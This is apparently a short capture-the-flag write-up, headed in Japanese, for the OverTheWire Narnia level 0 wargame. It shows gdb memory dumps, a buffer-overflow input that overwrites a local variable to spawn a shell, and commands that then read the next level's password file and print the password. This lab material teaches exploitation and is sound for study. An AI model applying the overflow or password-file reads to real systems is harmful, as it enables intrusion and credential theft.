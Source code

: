 ssh -p 2226 narnia0@narnia.labs.overthewire.org

gdb-peda$ x/20wx 0x8048679
0x8048679:	0x73343225	0x66756200	0x7325203a	0x6176000a
0x8048689:	0x30203a6c	0x38302578	0x2f000a78	0x2f6e6962
0x8048699:	0x57006873	0x4f205941	0x21214646	0x01002121
0x80486a9:	0x283b031b	0x04000000	0xd8000000	0x44fffffc
0x80486b9:	0x55000000	0x68fffffe	0xf8000000	0x88fffffe

gdb-peda$ x/20wx 0x8048694
0x8048694:	0x6e69622f	0x0068732f -> /bin/sh

## バッファーオーバーフローによるローカル変数の上書き

```sh
$ (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat) |./narnia0
```

```sh
narnia0@narnia:/etc/narnia_pass$ (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
ls
narnia0  narnia1  narnia2  narnia3  narnia4  narnia5  narnia6  narnia7	narnia8  narnia9
cat narnia1
efeidiedae
```

